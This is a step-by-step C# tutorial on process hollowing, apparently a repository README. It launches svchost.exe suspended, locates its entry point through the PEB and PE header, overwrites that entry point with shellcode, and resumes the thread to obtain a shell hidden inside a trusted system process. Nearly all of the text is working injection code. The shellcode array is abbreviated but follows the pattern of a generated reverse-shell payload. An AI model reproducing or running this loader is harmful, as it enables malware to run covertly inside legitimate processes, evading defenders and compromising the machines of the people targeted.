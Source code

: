 ## Begin
The very first step is to create a suspended process. We'll be using the Win32 _CreateProcessW_ API.
We'll first import the API, as follows:
```C#
[DllImport("kernel32.dll", SetLastError = true, CharSet = CharSet.Ansi)]
static extern bool CreateProcess(string lpApplicationName, string lpCommandLine, 
    IntPtr lpProcessAttributes, IntPtr lpThreadAttributes, bool bInheritHandles, 
        uint dwCreationFlags, IntPtr lpEnvironment, string lpCurrentDirectory, 
            [In] ref STARTUPINFO lpStartupInfo, out PROCESS_INFORMATION lpProcessInformation);
```

The API takes 10 parameters:
1. lpApplicationName - Name of application(null)
2. lpCommandLine - Full command line to be executed(svchost.exe)
3. lpProcessAttributes - Specify security descriptor(null for default)
4. lpThreadAttributes - Part of 3 (null for default) 
5. bInheritHandles - Handles of current process(set to false)
6. dwCreationFlags - indicates intention to launch the new process in a suspended state(set to 0x04 - CREATE_SUSPEND)
7. lpEnvironment - Environment variable settings to be used(null for default)
8. lpCurrentDirectory - Current directory for the new application(null for default)
9. lpStartupInfo - Values related to how window of new process be configured
10. lpProcessInformation - identification information about the new process {like PID}

We need to add the structure for the last 2 arguments from P/Invoke as follows:
- For lpStartupInfo:
```C#
[StructLayout(LayoutKind.Sequential, CharSet = CharSet.Ansi)]
struct STARTUPINFO
{
    public Int32 cb;
    public IntPtr lpReserved;
    public IntPtr lpDesktop;
    public IntPtr lpTitle;
    public Int32 dwX;
    public Int32 dwY;
    public Int32 dwXSize;
    public Int32 dwYSize;
    public Int32 dwXCountChars;
    public Int32 dwYCountChars;
    public Int32 dwFillAttribute;
    public Int32 dwFlags;
    public Int16 wShowWindow;
    public Int16 cbReserved2;
    public IntPtr lpReserved2;
    public IntPtr hStdInput;
    public IntPtr hStdOutput;
    public IntPtr hStdError;
}
```

- For lpProcessInformation:
```C#
[StructLayout(LayoutKind.Sequential)]
internal struct PROCESS_INFORMATION
{
    public IntPtr hProcess;
    public IntPtr hThread;
    public int dwProcessId;
    public int dwThreadId;
}
```

We can invoke the call by first instantiating a _STARTUPINFO_ and a _PROCESS_INFORMATION_ object and then supply them to _CreateProcessW_.
```C#
STARTUPINFO si = new STARTUPINFO();
PROCESS_INFORMATION pi = new PROCESS_INFORMATION();

bool res = CreateProcess(null, "C:\\Windows\\System32\\svchost.exe", IntPtr.Zero, 
    IntPtr.Zero, false, 0x4, IntPtr.Zero, null, ref si, out pi);
```

Now we import _ZwQueryInformationProcess_ using P/Invoke:
```c#
[DllImport("ntdll.dll", CallingConvention = CallingConvention.StdCall)]
private static extern int ZwQueryInformationProcess(IntPtr hProcess, 
    int procInformationClass, ref PROCESS_BASIC_INFORMATION procInformation, 
        uint ProcInfoLen, ref uint retlen);
```

The API takes 5 parameters:
1. hProcess - process handle that we can obtain from the _PROCESS_INFORMATION_ structure
2. procInformationClass - Actions to be performed by the API(set to "0" which means _ProcessBasicInformation_)
3. procInformation - must be a _PROCESS_BASIC_INFORMATION_ structure that is populated by the API
4. ProcInfoLen - indicate the size of the input structure
5. retlen - a variable to hold the size of the fetched data

We will also need to create a structure for _ProcessInformation_ using P/Invoke as follows:
```C#
[StructLayout(LayoutKind.Sequential)]
internal struct PROCESS_BASIC_INFORMATION
{
    public IntPtr Reserved1;
    public IntPtr PebAddress;
    public IntPtr Reserved2;
    public IntPtr Reserved3;
    public IntPtr UniquePid;
    public IntPtr MoreReserved;
}
```

We can now call _ZwQueryInformationProcess_ and fetch the address of the PEB from the _PROCESS_BASIC_INFORMATION_ structure:
```C#
PROCESS_BASIC_INFORMATION bi = new PROCESS_BASIC_INFORMATION();
uint tmp = 0;
IntPtr hProcess = pi.hProcess;
ZwQueryInformationProcess(hProcess, 0, ref bi, (uint)(IntPtr.Size * 6), ref tmp);

IntPtr ptrToImageBase = (IntPtr)((Int64)bi.PebAddress + 0x10);
```

NOTE: The _ptrToImageBase_ variable now contains a pointer to the image base of svchost.exe in the suspended process.

We will now import _ReadProcessMemory_ API from P/Invoke as follows:
```C#
[DllImport("kernel32.dll", SetLastError = true)]
static extern bool ReadProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, 
    [Out] byte[] lpBuffer, int dwSize, out IntPtr lpNumberOfBytesRead);
```

The Function takes 5 parameters:
1. hProcess- process handle to read from
2. lpBaseAddress - the address to read from
3. lpBuffer - a buffer to copy the content into
4. nSize - the number of bytes to read
5. lpNumberOfBytesRead - a variable to contain the number of bytes read

 we can call _ReadProcessMemory_ by specifying an 8-byte buffer that is then converted to a 64bit integer through the [_BitConverter.ToInt64_](https://docs.microsoft.com/en-us/dotnet/api/system.bitconverter.toint64?view=netframework-4.8) method and then casted to a pointer using _(IntPtr)_ as follows:
```C#
byte[] addrBuf = new byte[IntPtr.Size];
IntPtr nRead = IntPtr.Zero;
ReadProcessMemory(hProcess, ptrToImageBase, addrBuf, addrBuf.Length, out nRead);

IntPtr svchostBase = (IntPtr)(BitConverter.ToInt64(addrBuf, 0));
```

The following step is to parse the PE header to locate the EntryPoint.
For this, we'll use _ReadProcessMemory_ again with a buffer size of 0x200 bytes as follows:
```C#
byte[] data = new byte[0x200];
ReadProcessMemory(hProcess, svchostBase, data, data.Length, out nRead);
```

Now is the time to implement our theory to find the code entrypoint.
We convert four bytes at offset 0x3C (_e_lfanew_ field) to an unsigned integer.
Next, we convert the four bytes at offset e_lfanew plus 0x28 into an unsigned integer.
We also, add the RVA to the image base to obtain the full memory address of the entry point.
We do this with the following code:
```C#
uint e_lfanew_offset = BitConverter.ToUInt32(data, 0x3C);

uint opthdr = e_lfanew_offset + 0x28;

uint entrypoint_rva = BitConverter.ToUInt32(data, (int)opthdr);

IntPtr addressOfEntryPoint = (IntPtr)(entrypoint_rva + (UInt64)svchostBase);
```

As we now have the EntryPoint, we can generate our shellcode and use _WriteProcessMemory_ to overwrite the existing code.
We Invoke the function and call it as follows:
```C#
[DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
```
```C#
byte[] buf = new byte[641] {
0xfc,0x48,....,0xff,0xd5 };

WriteProcessMemory(hProcess, addressOfEntryPoint, buf, buf.Length, out nRead);
```

We will now finally start the execution of our shellcode.
We can do this with the _ResumeThread_ Win32 API, as we already have an execution thread.
The API only takes one argument, i.e. the handle of the thread to resume.
We import and call the function as follows:
```C#
[DllImport("kernel32.dll", SetLastError = true)]
private static extern uint ResumeThread(IntPtr hThread);
```
```C#
ResumeThread(pi.hThread);
```

Executing the compiled code gives us a shell in the svchost.exe process.